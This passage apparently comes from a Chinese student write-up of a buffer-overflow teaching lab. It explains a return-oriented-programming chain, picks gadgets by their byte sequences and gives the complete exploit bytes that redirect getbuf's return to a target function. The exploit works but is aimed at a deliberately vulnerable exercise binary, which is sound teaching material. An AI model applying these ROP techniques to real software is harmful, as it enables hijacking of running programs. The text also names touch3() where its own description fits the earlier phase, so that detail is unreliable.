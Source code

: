 ```
Gadget_1
Data_1
Data_2
...
Data_n
Gadget_2
...
```

这样，先修改`getbuf`函数的返回地址，跳转到Gadget1，执行`popq`将`Data_i`存储到目标寄存器（设置参数），栈顶指针移动，直到指向Gadget2的地址后，gadget1的`retq`指令将PC指向gadget2，再执行gadget2的程序，以此类推。最后把`touch3()`的地址写到最后一个gadget中跳转。

由于Phase2只需要将cookie的数值作为参数传入，结合给定的gadget farm，我们推断出如下指令可以完成任务：

```asm
58          popq %rax
48 89 c7    movq %rax, %rdi
```

此时`Data_1 = ${cookie} = 0x59b997fa`。

中间可能会出现`90`(`nop`指令)，这里忽略掉。通过检索文档可以找到包含`popq %rax`指令字节序列的gadget1：

```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq 
```

`ADDR(gadget1) = 0x4019ab`。同样的可以检索到包含`movq %rax, %rdi`指令字节序列的gadget2：

```asm
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

`ADDR(gadget2) = 0x4019c5`。最后将`touch3()`函数的地址作为gadget3的地址`ADDR(gadget3) = 0x4017ec`。

组织exploit的内容如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

## Level 3

这部分实验和Phase3实现的功能相同，也就是在内存中存放cookie的字符序列，之后将字符地址传入`%rdi`中。
